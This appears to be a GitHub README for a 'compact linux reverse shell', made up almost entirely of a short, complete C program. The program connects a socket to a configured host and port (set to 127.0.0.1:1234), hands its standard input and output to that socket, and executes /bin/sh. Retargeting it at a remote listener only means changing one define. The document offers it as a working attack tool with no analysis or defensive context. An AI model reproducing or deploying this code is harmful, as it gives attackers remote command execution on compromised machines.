 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.

https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```
